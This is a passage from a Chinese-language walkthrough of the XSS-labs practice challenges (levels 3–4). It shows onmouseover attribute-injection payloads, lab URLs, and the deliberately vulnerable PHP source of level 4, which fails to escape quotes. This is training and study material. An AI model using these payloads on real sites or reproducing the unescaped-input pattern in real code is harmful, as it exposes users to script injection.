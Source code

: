 > onmouseover事件会在**鼠标指针移动**到指定的对象上时触发事件发生。

```js
?keyword=' onmouseover='alert(/xss/)'
```

### 运行

```js
http://192.168.70.10:8084/level3.php?keyword=' onmouseover='alert(/xss/)'
```

**移动鼠标**到输入框触发xss.

![image-20240819204815910](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819204815910.png)

## level4 onmouseover标签

### 访问

http://192.168.70.10:8084/level4.php?keyword=try%20harder!

![image-20240819204928605](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819204928605.png)

### 源码

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace(">","",$str);
$str3=str_replace("<","",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level4.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

将前后**尖括号**替换为**空**，**双引号"**闭合

### 双引号"闭合

```js
" onmouseover="alert(/xss/)
```

### 运行

```js
http://192.168.70.10:8084/level4.php?keyword=" onmouseover="alert(/xss/)
```
